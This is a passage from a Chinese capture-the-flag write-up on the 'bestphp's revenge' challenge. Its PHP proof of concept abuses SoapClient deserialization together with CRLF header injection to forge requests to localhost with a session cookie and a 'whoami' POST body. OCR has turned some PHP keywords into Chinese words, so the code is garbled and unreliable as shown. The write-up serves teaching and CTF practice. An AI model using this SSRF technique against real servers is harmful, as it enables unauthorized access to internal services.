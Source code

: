 
|

    
    
      
    $target = 'http://47.xxx.xxx.72:2333/' ;   
    $post_data = 'data=whoami' ;   
    $headers = array ( 'X-Forwarded-For: 127.0.0.1' , 'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93' ); $a = new SoapClient( null , array ( 'location' => $target , 'user_agent' => 'wupco^^Content-Type: application/x-www-form-urlencoded^^' .join( '^^' , $headers ). '^^Content-Length: ' . (字符串  
          
          
      
    )strlen( $post_data )。'^^^^'。$post_data , 'uri' => 'test' ));   
    $b = 序列化( $a );   
    $b = str_replace( '^^' , "\n\r" , $b );   
    回声 $b ;   
    $c = 反序列化( $b );   
    $c -> a();    // 随便调用对象中不存在的方法,触发__call方法进行ssrf   
    ?>  
      
  
---|---  
  
`  
`

`执行代码后，如下图所示，成功发送POST数据：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084248.png)`

## `bestphp 的报复`

`bestphp的报复这道题利用的就是这个点，即对SoapClient类进行反序列化触发SSRF，并配合CRLF构造payload。`

`进入题目，提交源码：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084249.png)`

`扫描目录发现flag.php：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084250.png)`

`很明显当127.0.0.1时在会话中插入flag，就会得到flag。很明显要利用ssrf。`

`但是这里并没有明显的ssrf利用，所以我们认为PHP点类SoapClient触发反序列化导致SSRF，因为flag会被插入到会话中，所以我们就一定需要携带一个cookie即PHPSESSID去访问它来生成这个会话文件。`

`写出最后的POC：`

`  
`

``

`PHP`

``

    
    